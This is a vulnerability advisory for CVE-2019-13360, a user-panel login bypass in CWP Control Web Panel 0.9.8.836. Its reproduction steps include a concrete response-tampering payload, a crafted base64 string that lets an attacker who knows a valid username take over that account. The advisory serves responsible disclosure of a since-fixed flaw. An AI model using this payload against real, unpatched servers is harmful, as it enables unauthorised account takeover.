 
# Information
```
Product             : CWP Control Web Panel
Vulnerability Name  : User panel bypass Login
version             : 0.9.8.836
Fixed on            : 0.9.8.838
Test on             : CentOS 7.6.1810 (Core)
Reference           : http://centos-webpanel.com/
                    : https://control-webpanel.com/changelog
CVE-Number          : CVE-2019-13360
```

<br>

# Description

By leveraging knowledge of a valid username, remoted attackers can bypass login process and become the target user

<br>

# Reproduce

1. Login as valid username and invalid password

<kbd>![](resources/CVE-2019-13360.md/2019-07-08-23-14-51.png)</kbd>

<br>

2. Intercept the request

<kbd>![](resources/CVE-2019-13360.md/2019-07-08-23-15-16.png)</kbd>

<br>

3. Release the request and intercept the response

<kbd>![](resources/CVE-2019-13360.md/2019-07-08-23-15-42.png)</kbd>

<br>

4. Prepare bypassing string

```
Bypassing format : <username>||/<username>/theme/original
Bypassing string : user1||/user1/theme/original<br>
Base64 encoding  : dXNlcjF8fC91c2VyMS90aGVtZS9vcmlnaW5hbA==
```

<kbd>![](resources/CVE-2019-13360.md/2019-07-08-23-16-10.png)</kbd>

<br>

5. Replace the result to the response body

<kbd>![](resources/CVE-2019-13360.md/2019-07-08-23-16-53.png)</kbd>

<br>

6. Become the target user

<kbd>![](resources/CVE-2019-13360.md/2019-07-08-23-17-30.png)</kbd>

<br><br>


# Timeline
```
2019-06-29: Discovered the bug
2019-06-29: Reported to vendor
2019-06-29: Vender accepted the vulnerability
2019-07-11: The vulnerability has been fixed
2019-07-15: Advisory published
```

<br>

# Discovered by
```
Pongtorn Angsuchotmetee
```